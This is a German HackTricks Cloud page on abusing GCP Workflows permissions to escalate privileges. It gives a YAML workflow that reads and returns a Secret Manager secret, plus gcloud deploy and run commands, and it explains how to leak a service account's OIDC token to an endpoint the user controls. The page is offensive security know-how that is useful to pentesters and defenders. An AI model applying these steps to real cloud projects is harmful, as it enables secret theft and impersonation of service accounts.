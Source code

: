 # GCP - Workflows Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Workflows

Grundinformationen:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Soweit ich weiß, ist es nicht möglich, eine Shell mit Zugriff auf den Metadaten-Endpunkt zu erhalten, der die SA-Anmeldeinformationen des SA enthält, der an einen Workflow angehängt ist. Es ist jedoch möglich, die Berechtigungen des SA zu missbrauchen, indem man die Aktionen hinzufügt, die innerhalb des Workflows ausgeführt werden sollen.

Es ist möglich, die Dokumentation der Connectoren zu finden. Zum Beispiel ist dies die [**Seite des Secretmanager-Connectors**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In der Seitenleiste sind mehrere andere Connectoren zu finden.

Und hier finden Sie ein Beispiel für einen Connector, der ein Geheimnis ausgibt:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aktualisierung über die CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Wenn Sie einen Fehler wie `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` erhalten, **warten Sie einfach eine Minute und versuchen Sie es erneut**.

Wenn Sie keinen Webzugang haben, ist es möglich, die Ausführung eines Workflows auszulösen und zu sehen mit:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Sie können auch die Ausgabe vorheriger Ausführungen überprüfen, um nach sensiblen Informationen zu suchen.
{% endhint %}

Beachten Sie, dass selbst wenn Sie einen Fehler wie `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` erhalten, weil Sie diese Berechtigung nicht haben, der Workflow generiert wurde.

### Leak OIDC-Token (und OAuth?)

Laut [**den Dokumenten**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) ist es möglich, Workflow-Schritte zu verwenden, die eine HTTP-Anfrage mit dem OAuth- oder OIDC-Token senden. Allerdings muss die HTTP-Anfrage mit dem Oauth-Token, wie im Fall von [Cloud Scheduler](gcp-cloudscheduler-privesc.md), an den Host `.googleapis.com` gerichtet sein.

{% hint style="danger" %}
Daher ist es **möglich, das OIDC-Token durch Angabe eines vom Benutzer kontrollierten HTTP-Endpunkts zu leaken**, aber um das **OAuth**-Token zu leaken, benötigen Sie **einen Bypass** für diesen Schutz. Sie können jedoch weiterhin **jede GCP-API kontaktieren, um im Namen des SA Aktionen durchzuführen**, entweder über Connectoren oder HTTP-Anfragen mit dem OAuth-Token.
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Mit dieser Berechtigung anstelle von `workflows.workflows.create` ist es möglich, einen bereits bestehenden Workflow zu aktualisieren und die gleichen Angriffe durchzuführen.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
